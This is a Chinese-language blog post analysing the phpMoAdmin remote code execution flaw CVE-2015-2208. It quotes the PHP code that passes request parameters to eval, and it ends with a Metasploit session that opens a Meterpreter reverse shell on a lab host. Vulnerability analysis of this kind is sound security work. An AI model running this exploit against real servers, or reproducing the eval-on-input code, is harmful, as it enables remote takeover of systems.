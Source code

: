 ```yaml
---
layout: post
title: phpMoadmin CVE-2015-2208 远程代码执行漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。**

<img src="http://pfr2vvlbk.bkt.clouddn.com/65ehrtdfgx.png">

>/phpmoadmin/moadmin.php 第555行

    public function listRows($collection) {
        foreach ($this->sort as $key => $val) { //cast vals to int
            $sort[$key] = (int) $val;
    }
    $col = $this->mongo->selectCollection($collection);
    $find = array();
	if (isset($_GET['find']) && $_GET['find']) {
		$_GET['find'] = trim($_GET['find']);
		if (strpos($_GET['find'], 'array') === 0) {
			eval('$find = ' . $_GET['find'] . ';');
		} else if (is_string($_GET['find'])) {
			if ($findArr = json_decode($_GET['find'], true)) {
				$find = $findArr;
			}
		}
	}

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**在这个`listRows`方法中，eval执行GET接收的`find`参数，首先`$find`变量初始化为数组，而且通过strpos判断传入的值是否为数组。看看哪里调用了这个方法。**

>/phpmoadmin/moadmin.php 第836行

	if (isset($_GET['collection']) && $action != 'listCollections' && method_exists(self::$model, $action)) {
        $this->mongo[$action] = self::$model->$action($_GET['collection']);
        $this->mongo['count'] = self::$model->count;
        $this->mongo['colKeys'] = self::$model->colKeys;
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先需要设置`collection`，根据`$action`跟踪到第785行，这里就可以通过`action`接收`listRows`参数来调用`listRows`方法。**

	$action = (isset($_GET['action']) ? $_GET['action'] : 'listCollections');

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**整体触发漏洞的逻辑就是首先通过`action`接收`listRows`，调用这个方法后，eval就会执行`$find`传入的值。由于过滤不严，即可执行传入的任意恶意代码。**

<img src="http://pfr2vvlbk.bkt.clouddn.com/r67jtydhrgdfs.png">

>/phpmoadmin/moadmin.php 第693行

	public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**`saveObject`函数中eval执行了形参$obj，找找哪里调用了这个函数。**

>/phpmoadmin/moadmin.php 第786行

	if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**开头检查POST是否传输了`object`，随后内包含的if进行判断，这个过程即调用了当前类的`saveObject`方法，POST传入`object`参数的值带入eval后就造成了代码执行。**

<img src="http://pfr2vvlbk.bkt.clouddn.com/Screen%20Shot%202016-03-06%20at%2012.24.03%20AM.png">

>Msf也已经更新了此漏洞的Exploit:

	msf > use exploit/multi/http/phpmoadmin_exec
	msf exploit(phpmoadmin_exec) > show options
	
	Module options (exploit/multi/http/phpmoadmin_exec):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	SSL        false            no        Negotiate SSL/TLS for outgoing connections
	TARGETURI  /                yes       The URI path of the PHPMoAdmin page
	VHOST                       no        HTTP server virtual host
	
	Exploit target:
	
	Id  Name
	--  ----
	0   PHPMoAdmin
	
	msf exploit(phpmoadmin_exec) > set RHOST 172.16.20.136
	RHOST => 172.16.20.136
	msf exploit(phpmoadmin_exec) > set TARGETURI /phpmoadmin
	TARGETURI => /phpmoadmin
	msf exploit(phpmoadmin_exec) > exploit
	
	[*] Started reverse TCP handler on 172.16.20.1:4444
	[*] Executing payload...
	[*] Sending stage (33684 bytes) to 172.16.20.136
	[*] Meterpreter session 1 opened (172.16.20.1:4444 -> 172.16.20.136:33492) at 2015-03-05 22:34:56 +0800
	
	meterpreter > ls
	Listing: /php/www/phpmoadmin
	=================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	100644/rw-r--r--  31713   fil   2015-03-05 21:42:58 +0800  LICENSE
	100644/rw-r--r--  5078    fil   2015-03-05 21:42:58 +0800  README.textile
	100644/rw-r--r--  1858    fil   2015-03-05 21:42:58 +0800  change.log
	100644/rw-r--r--  111430  fil   2015-03-05 21:42:58 +0800  moadmin.php